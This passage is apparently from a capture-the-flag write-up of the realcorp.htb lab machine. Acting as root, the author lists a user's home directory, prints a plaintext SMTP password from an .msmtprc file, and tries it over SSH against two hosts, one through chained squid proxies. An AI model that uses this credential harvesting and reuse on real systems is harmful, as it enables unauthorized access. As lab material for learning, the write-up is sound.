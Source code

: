 On this host, there’s one user, and not many files:

```

root@smtp:/home/j.nakazawa# find . -ls
find . -ls
 53833505      0 drwxr-xr-x   1 j.nakazawa j.nakazawa       59 Dec  9  2020 .
 51627972      0 lrwxrwxrwx   1 root       root              9 Dec  9  2020 ./.bash_history -> /dev/null
 53833507      4 -rw-r--r--   1 j.nakazawa j.nakazawa      220 Apr 18  2019 ./.bash_logout
 53833508      4 -rw-r--r--   1 j.nakazawa j.nakazawa     3526 Apr 18  2019 ./.bashrc
 53833509      4 -rw-r--r--   1 j.nakazawa j.nakazawa      807 Apr 18  2019 ./.profile
   358589      4 -rw-------   1 j.nakazawa j.nakazawa      476 Dec  8  2020 ./.msmtprc
   358586      0 lrwxrwxrwx   1 root       root              9 Dec  9  2020 ./.viminfo -> /dev/null

```

`.msmtprc` is the only unusual file. It’s a config file for a lightweight SMTP client, and can often include credentials. In this case, it does:

```

root@smtp:/home/j.nakazawa# cat .msmtprc
cat .msmtprc
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp

```

### SSH Fails

I tried to SSH using those creds into the different hosts without success:

```

oxdf@parrot$ sshpass -p 'sJB}RM>6Z~64_' ssh j.nakazawa@10.10.10.224
Warning: Permanently added '10.10.10.224' (ECDSA) to the list of known hosts.
Permission denied, please try again.

oxdf@parrot$ sudo proxychains -f proxy-squid-x3.conf sshpass -p 'sJB}RM>6Z~64_' ssh j.nakazawa@10.197.243.77
[proxychains] config file found: proxy-squid-x3.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.77:22  ...  OK
Warning: Permanently added '10.197.243.77' (ECDSA) to the list of known hosts.
Permission denied, please try again.

```
